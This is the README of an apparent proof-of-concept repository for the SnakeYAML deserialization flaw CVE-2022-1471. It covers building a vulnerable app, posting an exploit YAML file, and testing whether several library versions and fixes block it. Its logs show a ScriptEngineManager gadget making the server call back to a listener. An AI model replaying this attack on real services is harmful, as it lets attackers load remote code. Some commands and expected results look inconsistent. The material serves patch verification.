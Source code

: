 # snakeyaml_cve_poc
SnakeYAML-CVE-2022-1471-POC


## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t snakeyaml .`

## run

Run the container with `docker run --rm -p8080:8080 snakeyaml`

or the jar if you built on your host with `java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar`

or when using jars in lib folder `java -cp "target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar:libs/*" com.example.snakeyaml.App`

## use

Send a get request to serialize object of student class and send yaml as response
![](images/image1.png)

Send a post request with yaml to read YAML object as custom java object - deserialization
![](images/image2.png)


## curl command
```shell
curl POST --data-binary @/files/exploit.yaml  -H "Content-type: text/x-yaml" http://localhost:8080
```

## exploit

Execute `python3 -m http.server 8000` to run the http server

Send a post request with yaml containing exploit
![](images/image3.png)

You should observe a HTTP GET request on the listner

## Scenarios
The scenarios to test of snakeyaml versions.

### Scenario 1: SnakeYaml v1.33
the original snakeyaml jar that caused the CVE.

**Setup:** update `pom.xml` to have `org.yaml:snakeyaml:1.33`.

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```

```shell
$> curl POST --data-binary @/files/exploit.yaml ...
curl: (6) Could not resolve host: POST
File Read, Object Created%  
```

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar

(( curl request happens))

[Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @96ms to org.eclipse.jetty.util.log.Slf4jLog
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
[Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.21+0
[Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
[Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
[Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
[Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@4ab3b7c5{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
[Thread-0] INFO org.eclipse.jetty.server.Server - Started @152ms
com.example.snakeyaml.Student@7f1a8334

```

```shell
$> python3 -m http.server 8000
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:127.0.0.1 - - [17/Aug/2024 11:23:19] code 404, message File not found
::ffff:127.0.0.1 - - [17/Aug/2024 11:23:19] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

**Expected result:** HTTP GET request to `localhost:8000`


### Scenario 2: Safeyaml v1.34.1
The Pentaho custom jar work done under https://hv-eng.atlassian.net/browse/PPP-4865.
Introduced a new artifact name  `safeyaml`, but the kept the same namespace `org.yaml.snakeyaml`

**Setup:** Update `pom.xml` to have `com.konloch:safeyaml:1.34.1` or  `org.hitachivantara:safeyaml:1.34.1`. And copy file from local repository `~/.m2/repository/org/hitachivantara/safeyaml/1.34.1/safeyaml-1.34.1.jar` or https://one.hitachivantara.com/ui/repos/tree/General/pntpub-maven-release/org/hitachivantara/safeyaml/1.34.1/safeyaml-1.34.1.jar to this projects folder `libs`.
May have to re-compile with special maven settings due to repository restrictions

```shell
$> mvn clean compile assembly:single -s files/oss-settings.xml
$> java -cp "target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar:libs/*" com.example.snakeyaml.App
```

```shell
curl POST --data-binary @/files/exploit.yaml ...
```

**Expected result:** HTTP GET request to `localhost:8000`
*This should not have happened, yaml code should have errored out. This should have addressed CVE*

### Scenario 3: Snakeyaml v2.2 Blocks Exploit
This snakeyaml version v2.0+ has code that by default the Yaml constructors are 'restrictive' by `UnTrustedTagInspector` being created when instantiating default `LoadOptions()`. https://bitbucket.org/snakeyaml/snakeyaml/src/59ddbb3304bb8e22e2004d74cddaf9ed4086632e/src/main/java/org/yaml/snakeyaml/LoaderOptions.java#lines-44

**Setup:**
Update `pom.xml` to have `org.yaml:snakeyaml:2.2`.
Comment out the v1.33 line and add this line below:

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```
```shell
curl POST --data-binary @/files/exploit.yaml ...
```
Re-compile.



```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT ...

(( curl request happens))

[Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @134ms to org.eclipse.jetty.util.log.Slf4jLog
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
[Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
[Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.21+0
[Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
[Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
[Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 660000ms
[Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@296d5b5d{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
[Thread-0] INFO org.eclipse.jetty.server.Server - Started @207ms
[qtp75269308-20] ERROR spark.http.matching.GeneralError -
Global tag is not allowed: tag:yaml.org,2002:javax.script.ScriptEngineManager
 in 'reader', line 9, column 14:
    objectField: !!javax.script.ScriptEngineManag ...
```
**Expected result:** Error on App code shell due to Yaml erroring out. `ScriptEngineManager`
HTTP GET request to `localhost:8000` ***never happens***


### Scenario 4: Snakeyaml v2.2 Works with Declared Class
With Snakeyaml version v2.0+, now you have to 'register' or declare the class(es).

**Setup:**
Update `pom.xml` to have `org.yaml:snakeyaml:2.2`.
Comment out the v1.33 line and add uncomment all the code block with v2.0+

```java
org.yaml.snakeyaml.LoaderOptions loaderoptions = new org.yaml.snakeyaml.LoaderOptions();
org.yaml.snakeyaml.inspector.TagInspector taginspector = tag -> tag.getClassName().equals(Student.class.getName());
loaderoptions.setTagInspector(taginspector);
Yaml yaml = new Yaml(new Constructor(Student.class, loaderoptions ));
```
Re-compile.

```shell
$> java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar
```
```shell
curl POST --data-binary @/files/test.yaml ...
```


**Expected result:** HTTP GET request to `localhost:8000` ***as expected***


## additional sources
The project was a combination of the below sources:
- https://medium.com/@snyksec/snakeyaml-2-0-solving-the-unsafe-deserialization-vulnerability-c29a0f08f152
- https://www.greynoise.io/blog/cve-2022-1471-snakeyaml-deserialization-deep-dive
- https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0
